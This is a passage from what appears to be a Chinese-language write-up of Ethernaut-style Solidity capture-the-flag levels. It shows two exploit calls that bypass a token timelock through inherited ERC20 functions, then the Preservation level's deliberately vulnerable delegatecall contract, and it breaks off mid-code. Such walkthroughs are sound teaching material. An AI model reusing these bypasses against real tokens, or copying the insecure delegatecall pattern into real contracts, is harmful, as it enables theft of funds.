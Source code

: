 ```solidity
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

### 分析

代码重载了EC20类，但是没有完全重载完，所以说可以直接调用ec20里面的函数进行转账。

```solidity
contract.approve(player,toWei("1000000"))
contract.transferFrom(player,contract.address,toWei("1000000"))
```

## preservation

### 题目

成为owner

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
```